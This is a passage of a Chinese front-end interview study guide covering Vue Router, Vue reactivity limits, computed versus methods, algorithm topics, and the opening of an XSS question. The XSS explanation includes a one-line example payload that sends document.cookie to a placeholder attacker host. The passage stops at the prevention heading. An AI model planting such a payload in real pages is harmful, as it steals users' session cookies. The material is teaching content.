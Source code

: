 4.  VueRouter 路由是什么？
    <pre>
    这里的路由就是SPA（单页应用）的路径管理器

    vue-router是Vue.js官方的路由插件，它和vue.js是深度集成的，适合用于构建单页面应用。vue的单页面应用是基于路由和组件的，路由用于设定访问路径，并将路径和组件映射起来。传统的页面应用，是用一些超链接来实现页面切换和跳转的。在vue-router单页面应用中，则是路径之间的切换，也就是组件的切换。路由模块的本质 就是建立起url和页面之间的映射关系。
    </pre>

5.  Vue 的双向绑定是如何实现的？有什么缺点？
    <pre>
    当你把一个普通的 JavaScript 对象传入 Vue 实例作为 data 选项，Vue 将遍历此对象所有的 property，并使用 Object.defineProperty 把这些 property 全部转为 getter/setter。
    </pre>
    <pre>
    由于 JavaScript 的限制，Vue 不能检测数组和对象的变化。

    对于对象
    Vue 无法检测 property 的添加或移除。由于 Vue 会在初始化实例时对 property 执行 getter/setter 转化，所以 property 必须在 data 对象上存在才能让 Vue 将它转换为响应式的
    Vue.set(object, propertyName, value)
    </pre>
    <pre>
    对于数组

    Vue 不能检测以下数组的变动：
    当你利用索引直接设置一个数组项时，例如：vm.items[indexOfItem] = newValue
    当你修改数组的长度时，例如：vm.items.length = newLength

    为了解决第一类问题：
    Vue.set(vm.items, indexOfItem, newValue)
    为了解决第二类问题，你可以使用 splice：
    vm.items.splice(newLength)
    </pre>

6.  computed 计算属性的用法？跟 methods 的区别。
    <pre>
    computed是响应式的，methods并非响应式。
    · 调用方式不一样，computed定义的成员像属性一样访问，methods定义的成员必须以函数形式调用。
    · computed是带缓存的，只有其引用的响应式属性发生改变时才会重新计算，而methods里的函数在每次调用时都要执行。
    · computed中的成员可以只定义一个函数作为只读属性，也可以定义get/set变成可读写属性，这点是methods中的成员做不到的
    </pre>

二十 算法面试题

1.	排序算法（背诵冒泡排序、选择排序、计数排序、快速排序、插入排序、归并排序）
2.	二分查找法
3.	翻转二叉树

二十二 关于安全面试题

1.	什么是 XSS 攻击？如何预防？
    ```javascript
    div.innerHTML = userComment  
    // userComment 内容是 <script>$.get('http://hacker.com?cookie='+document.cookie)</script>
    // 恶意就被执行了，这就是 XSS
    ```
    <pre>
    预防
